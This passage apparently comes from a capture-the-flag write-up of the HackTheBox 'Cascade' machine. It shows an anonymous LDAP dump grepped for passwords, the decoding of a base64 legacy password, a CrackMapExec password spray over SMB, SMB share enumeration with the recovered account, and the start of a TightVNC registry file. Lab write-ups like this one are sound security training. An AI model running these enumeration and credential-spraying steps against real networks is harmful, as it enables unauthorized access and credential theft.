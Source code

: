 ```sh
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldapPerson.txt
```

```sh
cat ldapPerson.txt | grep -i "pwd\|pass"
```

![clk0bjVldmE=](htb_b64.png "clk0bjVldmE=")
_clk0bjVldmE=_

We find a Base-64 encoded legacy password. We can easily decode this and use run it against our earlier list of users.

![rY4n5eva](htb_legacypwd.png "rY4n5eva")
_rY4n5eva_

Now that we've got our password, it's time to move onto `CrackMapExec` to see if we've got a hit yet.

```sh
crackmapexec smb 10.10.10.182 -d cascade.local -u users.txt -p "rY4n5eva"
```

![r.thompson](htb_rthompson.png "r.thompson")
_r.thompson_

We've got credentials to enumerate SMB with.

```sh
smbclient -L \\\\10.10.10.182\\ --user="r.thompson"
```

![SMB](htb_smb.png "SMB")
_SMB_

As `r.thompson`, we have permission to explore `\Data`. After some enumerating, we find some files:<br>
```
\\\\10.10.10.182\\Data\\IT\\Email Archives\\Meeting_Notes_June_2018.html
\\\\10.10.10.182\\Data\\IT\\Logs\\Ark AD Recycle Bin\\ArkAdRecycleBin.log
\\\\10.10.10.182\\Data\\IT\\Logs\\DCs\\dcdiag.log
\\\\10.10.10.182\\Data\\IT\\Temp\\s.smith\\VNC Install.reg
```
The email from Steve Smith says an account called `TempAdmin` existed with a password the same as the normal admin password.<br>
![Email](htb_email.png "Email")
_TempAdmin_

This isn't immediately useful but no doubt it will be later. The file most interesting to us right now is<br> 
`VNC Install.reg`.
```
VNC Install.reg
------------------------------------
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
```